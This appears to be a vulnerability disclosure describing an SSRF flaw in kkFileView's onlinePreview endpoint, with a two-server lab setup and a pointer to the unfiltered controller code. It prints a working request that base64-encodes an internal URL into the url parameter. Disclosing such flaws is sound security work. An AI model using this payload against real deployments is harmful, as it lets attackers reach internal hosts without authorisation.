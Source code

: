# KkFileView has SSRF vulnerabilities


The server provides the function of obtaining data from other server applications without filtering or restricting addresses and protocols.

Set up the test environment as shown below

Set up kkFileView service on Server1 server and start HTTP service on port 90 of Server2 host

Server2 host Settings do not allow direct access from PC1 hosts

![](./img/9.png)

By accessing server1 `http://ip:prot/onlinPreview?url=`

The Intranet request address to be probed is base64 encoded and used as the URL parameter value for this request

![](./img/8.png)

**Related Request packets**

```
GET /onlinePreview?url=aHR0cDovLzE5Mi4xNjguMTcuMTUzOjkwL2luZGV4Lmh0bWw= HTTP/1.1
Host: 192.168.17.128:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The contents of the Server2 host can be detected in the response package

![](./img/7.png)

You can also see Server1 requesting it in Server2's Web services log

![](./img/6.png)


120/5000 
Check the `server\src\main\java\cn\keking\web\controller\OnlinePreviewController.java` 
OnlinePreview function in Java Here is not to the incoming base64 content filtering operation

![](./img/10.png)
